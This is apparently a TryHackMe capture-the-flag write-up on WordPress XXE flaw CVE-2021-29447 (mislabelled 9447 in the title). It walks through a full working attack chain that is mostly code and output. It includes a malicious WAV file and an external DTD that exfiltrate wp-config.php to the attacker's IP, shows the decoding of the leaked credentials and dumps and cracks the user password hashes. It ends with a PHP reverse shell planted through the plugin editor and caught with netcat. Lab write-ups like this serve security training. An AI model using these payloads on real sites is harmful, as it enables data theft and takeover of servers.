

# Wordpress: CVE-2021-9447

---

---

# Enumeration




The user creds from ************Task 1: Introduction************


# Exploit

<aside>
❗ Note
I recommend you to `copy-paste` the payload instead of writing them `manually` to avoid errors (nothing happen when uploading the malicious file to the server)

</aside>

**********************payload.wav**********************

```tsx
RIFF�WAVEiXML{<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM 'http://10.8.97.213:1234/evil.dtd'>%remote;%init;%trick;]>
```

****************evil.dtd****************

```tsx
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/var/www/html/wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.8.97.213:1234/?p=%file;'>" >
```

```tsx
┌──(kali㉿kali)-[~/TryHackMe/wordpress-cve-2021-29447]
└─$ php -S 0.0.0.0:1234
[Wed Jun 28 00:04:13 2023] PHP 8.1.12 Development Server (http://0.0.0.0:1234) started
[Wed Jun 28 00:06:08 2023] 10.10.135.10:37342 Accepted
[Wed Jun 28 00:06:08 2023] 10.10.135.10:37342 [200]: GET /evil.dtd
[Wed Jun 28 00:06:08 2023] 10.10.135.10:37342 Closing
[Wed Jun 28 00:06:09 2023] 10.10.135.10:37344 Accepted
[Wed Jun 28 00:06:09 2023] 10.10.135.10:37344 [404]: GET /?p=nVZtT+NGEP5cJP7DcK2UKyVxOaSq4lqVQFKCLkdonAjdp2hjr+0Vzu7evoSLTvffO7N2HIdDreA4CWPPPPP+zPzxly704UF0fHx4AMcwKzgsmeWQKJmJ3BvmhJKQKQP3yqR3hltLgo3wo+5Woj3EgcTwSsEmRmgH3nILrhAWMlFySL0RMscXPOgLaR0ry6DRg0/KQ6pkx0HB1hycIm2ShUe+BCscP4ENyiRMBu1E6U0LG+Xf7DnzBphM6VuJhgLOmpWe217L/60yajmG7gSxTJWleiRH95JgzxvFY/i4if8Zg+XOoZytX8Yc43fwwDfbNwPmWEgn/kIz2vBMfKm/9S/ju/5s1IBelEI+QOGctudR9IjZ1pTtnjJ5ZL3WyriIGSeSkkc8FWS42wTcxYCjHZRmyQPL+X7N8DsWOoLjp+5DNyQfEws5+h9yKmSmIDNqRTk3oQSFso6Uoyj0Syi/ZCsOKgt5S7fB7nVLsJti3JK/hc7gcnHb/zjsnECniTBdvuvAz++Dd41vDRg2gQlWnuLM4+GUcNB0ysyDYzLn0v0HkmbWktHvkO76cXw/mQ4Izc71mYnPqJCnZ8/4RUl41p3RJJ4RQKkSVpJUW7fpg6uCGUs5rrobG7MaGWy2dK9XbO87C1ej/jQeBiPeZb+38akUOxuKZgpxNpr3YBBGKikoPXVpM7KbKr90zxiZjMf9WShQy8CPF7+Exup7zLbEHqymfC7FZ8/hAzZ8GLaYla41X1dbo9yG+UxFlnGD+uArRV0YdNgeBeldC0pugv9Bz9uaMuDr/oQwLXpPpiTMXxfnLzrtnUYWvYl2jUgisBPBR7MWCf+2Zzxpu8wcRrUBrQS6TBwiViEOIZFJREo+In0B/yKsq+hCPQiqXCCWR2IeHIWkkqI+tqS9ZbdS5QTKciSeXc4uMFzUeNf7rfdrPbRNefrz2WjxYfgJi7P919HeVRO6l1IoMM9V/RrteHg1nw4XbZAXaI8n19fDweLmdufAC7RvJ7dXw33XX6AdXI7749mrtNtx1yCvirtx4MVx77n+/9r1xHVrwq43845Qm0GftZbKroO2rRz6bOVLJ3TJ93YtsTso2WJspARarblAFc6SIgCxxsPKAkxkuQHpV0vs5BMocXuEB5p8L1N8ThQ6CGgOMY/q7v0p0NmiwoA/kfe1M5tF5307uL9xY6R8zUulEea8FWzKlz7PabpWKuXPcIsIQ+WMD0PFZchJWEfC6pJtaDtJhZSFntX3R21phUwUAOEGx9uCdUbJHEM0PFEr/JryFJGQBXTpcxpVSX9zJIGdr4HG7+8Wg+Hl/Lq+akhImLYZ9GstEJ2eWwRJYdOiNauKT+k/6ho6PLBcKFvZp3IuwypMw3JtknISYNYCr6MqZpV4slGdVK86LRrsrpDdRjR6ykXbkLGvM1ZiDradi+THXMcS551gSpWG+lg5ghHTeLJpvyyFLfDN3vYhxNEknAYBsDVH9Cm+mQ3n03H7a7X6+kurSu9ovbsitELB2/0jsJpOmU1lDBv9LRxBBZwSt1RXGE4e/nw9PPhhxzr1lxNYLAY308UCetCJqhH9trUec6yR1y2Da1zwoVOQx0tPLUQXZr3ODf/s0aGFIo6vDRAs3nHbY4xOVxqOfwE= - No such file or directory
[Wed Jun 28 00:06:09 2023] 10.10.135.10:37344 Closing
```

Create `read.php` file to read the decode string

```php
<?php

$decode_string = 'nVZtT+NGEP5cJP7DcK2UKyVxOaSq4lqVQFKCLkdonAjdp2hjr+0Vzu7evoSLTvffO7N2HIdDreA4CWPPPPP+zPzxly704UF0fHx4AMcwKzgsmeWQKJmJ3BvmhJKQKQP3yqR3hltLgo3wo+5Woj3EgcTwSsEmRmgH3nILrhAWMlFySL0RMscXPOgLaR0ry6DRg0/KQ6pkx0HB1hycIm2ShUe+BCscP4ENyiRMBu1E6U0LG+Xf7DnzBphM6VuJhgLOmpWe217L/60yajmG7gSxTJWleiRH95JgzxvFY/i4if8Zg+XOoZytX8Yc43fwwDfbNwPmWEgn/kIz2vBMfKm/9S/ju/5s1IBelEI+QOGctudR9IjZ1pTtnjJ5ZL3WyriIGSeSkkc8FWS42wTcxYCjHZRmyQPL+X7N8DsWOoLjp+5DNyQfEws5+h9yKmSmIDNqRTk3oQSFso6Uoyj0Syi/ZCsOKgt5S7fB7nVLsJti3JK/hc7gcnHb/zjsnECniTBdvuvAz++Dd41vDRg2gQlWnuLM4+GUcNB0ysyDYzLn0v0HkmbWktHvkO76cXw/mQ4Izc71mYnPqJCnZ8/4RUl41p3RJJ4RQKkSVpJUW7fpg6uCGUs5rrobG7MaGWy2dK9XbO87C1ej/jQeBiPeZb+38akUOxuKZgpxNpr3YBBGKikoPXVpM7KbKr90zxiZjMf9WShQy8CPF7+Exup7zLbEHqymfC7FZ8/hAzZ8GLaYla41X1dbo9yG+UxFlnGD+uArRV0YdNgeBeldC0pugv9Bz9uaMuDr/oQwLXpPpiTMXxfnLzrtnUYWvYl2jUgisBPBR7MWCf+2Zzxpu8wcRrUBrQS6TBwiViEOIZFJREo+In0B/yKsq+hCPQiqXCCWR2IeHIWkkqI+tqS9ZbdS5QTKciSeXc4uMFzUeNf7rfdrPbRNefrz2WjxYfgJi7P919HeVRO6l1IoMM9V/RrteHg1nw4XbZAXaI8n19fDweLmdufAC7RvJ7dXw33XX6AdXI7749mrtNtx1yCvirtx4MVx77n+/9r1xHVrwq43845Qm0GftZbKroO2rRz6bOVLJ3TJ93YtsTso2WJspARarblAFc6SIgCxxsPKAkxkuQHpV0vs5BMocXuEB5p8L1N8ThQ6CGgOMY/q7v0p0NmiwoA/kfe1M5tF5307uL9xY6R8zUulEea8FWzKlz7PabpWKuXPcIsIQ+WMD0PFZchJWEfC6pJtaDtJhZSFntX3R21phUwUAOEGx9uCdUbJHEM0PFEr/JryFJGQBXTpcxpVSX9zJIGdr4HG7+8Wg+Hl/Lq+akhImLYZ9GstEJ2eWwRJYdOiNauKT+k/6ho6PLBcKFvZp3IuwypMw3JtknISYNYCr6MqZpV4slGdVK86LRrsrpDdRjR6ykXbkLGvM1ZiDradi+THXMcS551gSpWG+lg5ghHTeLJpvyyFLfDN3vYhxNEknAYBsDVH9Cm+mQ3n03H7a7X6+kurSu9ovbsitELB2/0jsJpOmU1lDBv9LRxBBZwSt1RXGE4e/nw9PPhhxzr1lxNYLAY308UCetCJqhH9trUec6yR1y2Da1zwoVOQx0tPLUQXZr3ODf/s0aGFIo6vDRAs3nHbY4xOVxqOfwE=';
echo zlib_decode(base64_decode($decode_string));

?>
```

Run the file with command line `php read.php` and it will export the data inside the base64 decoded string → Read the content and you will find the `database name` and user creds

```php
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpressdb2' );

/** MySQL database username */
define( 'DB_USER', 'thedarktangent' );

/** MySQL database password */
define( 'DB_PASSWORD', 'sUp3rS3cret132' );
```

Use the previous creds to login `mysql` within `h` tag to identify the specific target URL

```tsx
──(kali㉿kali)-[~]
└─$ mysql -h 10.10.135.10 -u thedarktangent -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 378
Server version: 5.7.33-0ubuntu0.16.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
```

Look around the databases to find the sensitive data of user creds

```tsx
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| wordpressdb2       |
+--------------------+
5 rows in set (0.204 sec)

MySQL [(none)]> use wordpressdb2;
Database changed

MySQL [wordpressdb2]> show tables;
+--------------------------+
| Tables_in_wordpressdb2   |
+--------------------------+
| wptry_commentmeta        |
| wptry_comments           |
| wptry_links              |
| wptry_options            |
| wptry_postmeta           |
| wptry_posts              |
| wptry_term_relationships |
| wptry_term_taxonomy      |
| wptry_termmeta           |
| wptry_terms              |
| wptry_usermeta           |
| wptry_users              |
+--------------------------+
12 rows in set (0.185 sec)

MySQL [wordpressdb2]> describe wptry_users;
+---------------------+---------------------+------+-----+---------------------+----------------+
| Field               | Type                | Null | Key | Default             | Extra          |
+---------------------+---------------------+------+-----+---------------------+----------------+
| ID                  | bigint(20) unsigned | NO   | PRI | NULL                | auto_increment |
| user_login          | varchar(60)         | NO   | MUL |                     |                |
| user_pass           | varchar(255)        | NO   |     |                     |                |
| user_nicename       | varchar(50)         | NO   | MUL |                     |                |
| user_email          | varchar(100)        | NO   | MUL |                     |                |
| user_url            | varchar(100)        | NO   |     |                     |                |
| user_registered     | datetime            | NO   |     | 0000-00-00 00:00:00 |                |
| user_activation_key | varchar(255)        | NO   |     |                     |                |
| user_status         | int(11)             | NO   |     | 0                   |                |
| display_name        | varchar(250)        | NO   |     |                     |                |
+---------------------+---------------------+------+-----+---------------------+----------------+
10 rows in set (0.187 sec)
```

Now I know the structure of the table `wptry_users` which contains users creds → View the data

```tsx
MySQL [wordpressdb2]> select ID,user_login,user_pass,display_name from wptry_users;
+----+------------+------------------------------------+------------------+
| ID | user_login | user_pass                          | display_name     |
+----+------------+------------------------------------+------------------+
|  1 | corp-001   | $P$B4fu6XVPkSU5KcKUsP1sD3Ul7G3oae1 | corp-001         |
|  2 | test-corp  | $P$Bk3Zzr8rb.5dimh99TRE1krX8X85eR0 | Corporation Test |
+----+------------+------------------------------------+------------------+
2 rows in set (0.185 sec)
```

Copy the hash from user `corp-001` ’s password to a file on local machine

```tsx
┌──(kali㉿kali)-[~/TryHackMe/wordpress-cve-2021-29447]
└─$ echo "\$P\$B4fu6XVPkSU5KcKUsP1sD3Ul7G3oae1" > corp-001_creds.hash
                                                                                                                    
┌──(kali㉿kali)-[~/TryHackMe/wordpress-cve-2021-29447]
└─$ cat corp-001_creds.hash 
$P$B4fu6XVPkSU5KcKUsP1sD3Ul7G3oae1
```

Then use `johntheripper` to decrypt the hash


Use the username and password found on the above to re-login the wordpress because the previous user `test-corp` does not have the permission as admin to modify any themes or plugins


As this message, we have encourage that the user `corp-001` is admin


From the right side bar, select **************Plugins → Plugin Editor**************

Select plugin `Hello Dolly` and paste the content of php reverse shell from ****************************[Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell)****************************


Start `Netcat Listener` on the local machine

Open new tab on web-browser and enter URL: `http:<IP>/wp-content/plugins/hello.php`

```tsx
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.97.213] from (UNKNOWN) [10.10.221.112] 40182
Linux ubuntu 4.4.0-210-generic #242-Ubuntu SMP Fri Apr 16 09:57:56 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 22:22:11 up 6 min,  0 users,  load average: 0.06, 0.07, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Get the flag

```tsx
$ cd /home
$ ls -l
total 12
drwxr-xr-x  5 stux stux 4096 May 26  2021 stux
$ cd stux
$ ls -l
total 4
drwxrwxr-x 2 stux stux 4096 May 26  2021 flag
$ cd flag
$ ls -l
total 4
-rw-rw-r-- 1 stux stux 46 May 26  2021 flag.txt
$ cat flag.txt
thm{28bd2a5b7e0586a6e94ea3e0adbd5f2f16085c72}
```